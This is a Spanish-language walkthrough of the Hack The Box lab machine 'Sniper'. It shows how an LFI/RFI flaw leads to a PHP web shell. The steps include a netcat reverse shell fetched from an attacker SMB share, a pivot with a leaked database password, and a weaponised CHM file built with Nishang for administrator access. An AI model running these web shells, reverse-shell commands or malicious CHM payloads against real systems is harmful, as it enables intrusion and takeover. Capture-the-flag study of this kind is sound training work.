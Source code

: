 ```yaml
---
layout: post
title: Sniper
date: 2022-11-23
categories: ["HTB", "LFI", "RFI", "CHM"]
thumbnail: "assets/images/Sniper.png"
---
```


# Sniper [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.151 -oG allPorts`
- `nmap -sCV -p80,135,139,445,49667 10.10.10.151 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Inspección

Cuando entramos en la página vemos varios apartados, sólo dos de ellos redireccionan a una ruta diferente del sistema, el apartado `Our Services` tiene un parámetro llamado `lang` el cual apunta a un archivo `PHP` de diferente idioma, vamos a ver si es vulnerable a `LFI`.

Para ello cambiaremos `lang=blog-en.php` por `lang=\windows\win.ini`, la página se nos queda en blanco, si inspeccionamos el código de la página veremos al final del todo el resultado, por lo que es vulnerable.

Vamos a probar si también es vulnerable a `RFI`. Para ello nos montaremos un servidor con el demonio de `Samba`, de lo contrario no funcionará. Crearé un archivo con una frase y lo meteré en la carpeta de `Samba`, teniendo esto cambiaremos el parámetro anterior por `lang=\\10.10.14.15\test.txt`.

Bien! Vemos que también es vulnerable a `RFI`, vamos a crearnos una Web Shell para poder ejecutar comandos en la Web, para ello crearemos el siguiente archivo en `PHP`:

```
<?php system($_REQUEST['cmd']); ?>
```

En mi caso lo llamé `cmd.php` para identificarlo mejor. Una vez creado lo llevamos a la carpeta compartida por `Samba` y cambiaremos de nuevo el parámetro `lang`.

- `http://10.10.10.151/blog?lang=\\10.10.14.15\share\cmd.php&cmd=whoami`


```
</html>
nt authority\iusr
</body>
</html>
```
Bien! Ya tenemos ejecución remota de comandos!

### Shell

Para obtener la Shell utilizaremos el archivo `PHP` que nos habíamos creado más `NC`,
de tal manera que el comando que ejecutaremos será NC para entablarnons la conexión.

Para ello utilicé la versión de `NC` de `32 bits`, el cual pude encontrar en [`GitHub`](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Una vez descargado lo volveremos a copiar en la carpeta compartida de `Samba`.

Una vez todo lo anterior esté preparado nos pondremos en escucha por el puerto que queramos, en mi caso `4444`.

- `rlwrap -cAr nc -nlvp 4444`

Bien, ahora podemos pasar de nuevo a la web, pero ahora cambiaremos un poco el anterior comando, dejando el parámetro `lang` así:

```
lang=\\10.10.14.15\share\cmd.php&cmd=\\10.10.14.15\share\nc.exe -e cmd 10.10.14.15 4444
```

Tras unos segundos de espera veremos que nos pudimos entablar la conexión.

Fantástico! Ya estamos en la máquina como `IUSR`!

### Subida de privilegios #1

Bien, antes de ser administradores de la máquina tenemos que pasar por otro usuario, en este caso por `Chris`. Gracias a `C:\Users` pude ver a los usuarios, por eso sé que es `Chris`.

Con esto sabido inspeccionamos un poco el directorio `C:\inetpub\wwwroot\user`, vemo que hay un archivo llamado `db.php` el cual contiene una contraseña para conectarse a la Base de Datos. Nos copiamos la contraseña.

Una vez hecho esto nos pasamos a `PowerShell`, para ello ejecutamos `powershell` y ejecutamos `hostname` para ver el `HostName` de la máquina, ahora veremos para qué.

Para ver si la contraseña introducida es la correcta haremos lo siguiente:

```
PS C:\> $user = "Sniper\Chris"
PS C:\> $pass = "36mEAhz/B8xQ~2VM"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $user, $secstr
PS C:\> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
```

Como vemos al ejecutar el comando nos dice que somos `Chris`, por lo que la contraseña es correcta. Para ganar una Shell como `Chris` hay que hacerle un pequeño cambio al último comando ejecutado, de tal manera que llamaremos al `NC` que habíamos subido con anterioridad a `Samba`.

Antes de eso deberíamos ponernos en escucha con `NC`, en mi caso será por el puerto `443`. Ahora sí, podemos ejecutar el siguiente comando:

```
PS C:\> Invoke-Command -ScriptBlock { \\10.10.14.15\share\nc.exe -e cmd 10.10.14. 443 } -Credential $cred -Computer localhost
```
Estupendo! Ya tenemos una Shell como `Chris`!

### Subida de privilegios #2

Si nos vamos a la raíz veremos una carpeta llamada `Docs` y dentro de ella un archivo `TXT` con el nombre de `note.txt`. Vamos a mirar a ver qué nos dice:

> Hi Chris, Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
>
> Regards, Sniper CEO.

Como vemos le está diciendo a `Chris` que sus habilidades en `PHP` son muy malas, que por favor hable con `YamiTenshi` para que él le haga clases. También le dice que espera que esté preparado para la documentación de la nueva app, que la suelte aquí cuando la haya terminado.

Si nos vamos a las descargas de `Chris` veremos un archivo llamado `instructions.chm`, si queremos ese archivo nos lo tenemos que pasar a nuestra máquina `Windows`.

Una vez nos lo hayamos pasado veremos un docuemnto, en verdad no tiene ningún tipo de relevancia más allá de que es un archivo `CHM` y `Nishang` tiene una herramienta ([`Out-Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)) que crea archivos `CMH` armados.

Para poder utilizar la herramienta nos la tenemos que descargar del repositorio de [`Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) e importarlo en `PowerShell`, para ello haremos lo siguiente en nuestra máquina `Windows`:

- `Import-Module .\Out-CHM.ps1`

Una vez hecho lo anterior podemos pasar al siguiente paso, crear nuestro archivo `CHM` malicioso, para ello ejecutaremos lo siguiente:

```
Out-CHM -Payload "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

Como vemos estamos especificando una ruta, esa ruta será la que se utilizará en la máquina víctima y donde se alojará nuestro `NC`.

Se nos creará un `doc.chm`, lo vamos a pasar a nustra máquina de atacante y de ahí a la máquina víctima con `Samba`.

- `copy \\10.10.14.15\share\doc.chm \Docs\`

Bien, también nos copiaremos el `NC`, aunque en la carpeta que hayamos especificado antes:

```
copy \\10.10.14.15\share\nc.exe \windows\system32\spool\drivers\color\
```

Bien! Ya estamos listos, nos ponemos en escucha con `NC` por el puerto especificado anteriormente:

- `rlwrap -cAr nc -nlvp 4444`

Enhorabuena! Estamos en la máquina como `Administrator`! Esto se nos ha complicado un poco!
